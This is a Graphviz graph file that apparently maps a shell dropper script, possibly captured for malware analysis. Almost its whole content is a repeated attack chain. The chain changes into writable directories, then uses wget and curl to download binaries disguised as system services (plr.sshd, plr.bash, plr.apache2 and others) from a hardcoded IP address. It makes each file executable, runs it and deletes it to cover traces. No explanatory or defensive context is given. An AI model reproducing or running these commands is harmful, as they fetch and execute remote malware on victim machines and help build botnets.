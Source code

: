digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://94.176.235.250/plr.ntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://94.176.235.250/plr.ntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x plr.ntpd "];
14 -> 16 [label=";,"];
16 [label="./plr.ntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf plr.ntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://94.176.235.250/plr.sshd "];
30 -> 32 [label=";,"];
32 [label="curl -O http://94.176.235.250/plr.sshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x plr.sshd "];
34 -> 36 [label=";,"];
36 [label="./plr.sshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf plr.sshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://94.176.235.250/plr.openssh "];
50 -> 52 [label=";,"];
52 [label="curl -O http://94.176.235.250/plr.openssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x plr.openssh "];
54 -> 56 [label=";,"];
56 [label="./plr.openssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf plr.openssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://94.176.235.250/plr.bash "];
70 -> 72 [label=";,"];
72 [label="curl -O http://94.176.235.250/plr.bash "];
72 -> 74 [label=";,"];
74 [label="chmod +x plr.bash "];
74 -> 76 [label=";,"];
76 [label="./plr.bash "];
76 -> 78 [label=";,"];
78 [label="rm -rf plr.bash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://94.176.235.250/plr.tftp "];
90 -> 92 [label=";,"];
92 [label="curl -O http://94.176.235.250/plr.tftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x plr.tftp "];
94 -> 96 [label=";,"];
96 [label="./plr.tftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf plr.tftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://94.176.235.250/plr.wget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://94.176.235.250/plr.wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x plr.wget "];
114 -> 116 [label=";,"];
116 [label="./plr.wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf plr.wget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://94.176.235.250/plr.cron "];
130 -> 132 [label=";,"];
132 [label="curl -O http://94.176.235.250/plr.cron "];
132 -> 134 [label=";,"];
134 [label="chmod +x plr.cron "];
134 -> 136 [label=";,"];
136 [label="./plr.cron "];
136 -> 138 [label=";,"];
138 [label="rm -rf plr.cron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://94.176.235.250/plr.ftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://94.176.235.250/plr.ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x plr.ftp "];
154 -> 156 [label=";,"];
156 [label="./plr.ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf plr.ftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://94.176.235.250/plr.pftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://94.176.235.250/plr.pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x plr.pftp "];
174 -> 176 [label=";,"];
176 [label="./plr.pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf plr.pftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://94.176.235.250/plr.sh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://94.176.235.250/plr.sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x plr.sh "];
194 -> 196 [label=";,"];
196 [label="./plr.sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf plr.sh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://94.176.235.250/plr.nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://94.176.235.250/plr.nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x plr.nut "];
214 -> 216 [label=";,"];
216 [label="./plr.nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf plr.nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://94.176.235.250/plr.apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://94.176.235.250/plr.apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x plr.apache2 "];
234 -> 236 [label=";,"];
236 [label="./plr.apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf plr.apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://94.176.235.250/plr.telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://94.176.235.250/plr.telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x plr.telnetd "];
254 -> 256 [label=";,"];
256 [label="./plr.telnetd "];
256 -> 257 [label=";,"];
}
